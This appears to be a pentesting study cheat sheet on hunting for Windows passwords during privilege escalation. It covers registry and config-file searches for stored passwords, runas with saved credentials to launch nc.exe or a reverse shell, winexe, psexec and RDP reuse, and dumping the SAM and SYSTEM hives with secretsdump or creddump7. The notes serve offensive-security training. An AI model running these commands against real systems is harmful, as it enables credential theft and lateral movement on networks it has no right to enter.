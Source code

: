 # Passwords

* Try different authentication methods if we find them as well as juggle the password for every single user just in case we can do some lateral movement .
* Try psexec because maybe we find a password for our current user but turns out that user reused his password to set up an administrator account
* try RDP
* try runas
* try the powesrshell run as variation
* try winexe -U "user%pass" //\<ip> cmd.exe

### Searching the Registry Passwords

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Saved Creds

Windows has a runas command which allows users to run commands with the privileges of other users. This usually requires the knowledge of the other user’s password. However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.

![](../../../../.gitbook/assets/2022-08-11\_16-57.png)

To verify these are correct we can run the command cmdkey /list and if it doesnt show anything we need to run the savedcred.bat to restore them and rerun the command.

```
runas /savedcred /user:<nameo f the credentiasl> C:\path\to\nc.exe or reverse.exe
```

### Searching for Configuration Files

```
dir /s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```

We should run this in directories where we think these will be, such as unusual folders because then it will become super overloaded with info.

Look at <mark style="color:red;">Unattended.xml</mark>

### SAM

SAM/SYSTEM locations

If we are able to read them we can secretsdump.py

or use&#x20;

{% embed url="http://github.com/Neohapsis/creddump7.git" %}

C:\Windows\System32\config

C:\Windows\Repair

C:\Windows\System32\config\RegBack
